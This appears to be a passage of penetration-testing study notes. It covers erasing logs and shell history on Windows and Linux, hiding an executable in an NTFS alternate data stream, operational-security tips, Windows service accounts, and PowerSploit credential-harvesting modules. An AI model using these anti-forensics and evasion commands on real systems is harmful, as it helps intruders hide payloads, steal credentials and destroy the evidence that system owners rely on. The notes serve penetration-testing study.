            -   The elsave.exe utility is a simple tool for clearing the event log. It\'s command line based  

            -   wevtutil el (list logs)

            -   wevtutil cl

        -   hiding backdoors with steganography and ntfs alternative data stream

            -   type file\_to\_hide \> normal\_file:stream1

            -   ex : type c:\\\\windows\\evil.exe \> file.txt:name.exe

            -   start ./file.txt:name.txt

    -   **Linux logs**

        -   metasploit

            -   Meterpreter \> clearev (command)

        -   Delete users created if you created a user

            -   sudo deluser \--remove-home username

        -   clear commands history

            -   ex: echo \" \" \> .bash\_history or

            -   echo \$HISTSIZE      && export HISTSIZE=0

        -    important log files

            -   auth.log=if we elevate our privilege it shows here

            -   syslog=cronjob shows here

            -   kernel log=if you kill a process it shows here/apache acess log/message log)

            -   you can edit them manually by opening them by a text editor and delete the lines you want

        -   **Notes**

            -   Use vpn/proxies

            -   Shred files don't delete them

            -   disable auditing policy

            -   use vps servers

    -   <h2 align="center">General Notes</h2>

        -   Service account

            -   What is a service ?

                -   Windows services are Windows' mechanism to start processes at system startup,(start automatically with Windows ) which are not tied to an interactive user, typically runs in the background with no visible front-end user interface are called   . These are similar to UNIX daemon processes. An example for a user independent process is a web server. This Windows service runs independently, regardless if a user is logged on or not.  we can view and modify services by using the Service Control Manager (**services.msc**) MMC console. We can also view active services by using Task Manager or Sysinternals [Process Explorer].

                -   #### For each service, a registry key exists in HKLM\\SYSTEM\\CurrentControlSet\\Services. The subkeys of a service's key contain information regarding the executable file path, parameters and configuration options. If a service is configured to start from a particular account's security context, the subkeys also contain the username. 

            -   What is a service account ?

                -   is a Windows built-in accounts  that is used for and associated with a service executable to be able to work without needing to any user to log-in and without using any user account and also for  the purpose of providing a security context for that service. Each service executes in the security context of a user account

                -   **Local System account** : has no password, has  Highest privileges possible; it is part of the Administrators group  The actual name of the account is NT-AUTHORITY and SYSTEM is a predefined local account that can start a service and provide the security context for that service. It is a powerful account that has full access to the computer, including the directory service when used for services running on domain controllers.also Core Windows components run under this account (admin + network)

                -   **Network Service account** is a special built-in account does not have a password that has reduced privileges similar to an authenticated user account. the same rights as a member of the users group  This limited access helps safeguard the computer if an attacker compromises individual services or processes. Services that run as the Network Service account access network resources by using the credentials of the computer account The actual name of the account is NT AUTHORITY\\NetworkService, and it that an administrator needs to manage.is only needed when you\'re communicating with other computers in a domain that need your machine\'s credentials for access control. It is not required for simple Internet/network access. It is only necessary for specific purposes in an Active Directory domain.(user + network)

                -   **Local Service account** is a special built-in account it does not have a password that has reduced privileges similar to an authenticated local user account  the same rights as a member of the users group. This limited access helps safeguard the computer if an attacker compromises individual services or processes. A service that runs as the Local Service account accesses network resources as an *Anonymous* user.or  as a null session; without credentials.. The actual name of the account is NT AUTHORITY\\LocalService, (user + no network)
 

        -   **NT-Authority vs administrator**: The system account and the administrator account (Administrators group) have the same file privileges, but they have different functions. The system account is used by the operating system and by services that run under WindowsThe main difference between the Administrator and SYSTEM is that Administrator is an actual account (for example, it has a password) whereas SYSTEM is not. (Properly speaking, SYSTEM is a \"security principal\".) . **Local System** is a very high-privileged built-in account. It has extensive privileges on the local system and acts as the computer on the network. The actual name of the account is \"NT AUTHORITY\\SYSTEM**\"**

        -   **Powersploit**

            -   Collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.

            -   Git clone https://github.com/PowerShellMafia/PowerSploit

                -   Get-GPPPassword

                -   Get-UnattendedInstallFile

                -   Get-Webconfig

                -   Get-ApplicationHost

                -   Get-SiteListPassword

                -   Get-CachedGPPPassword

                -   Get-RegistryAutoLogon

   
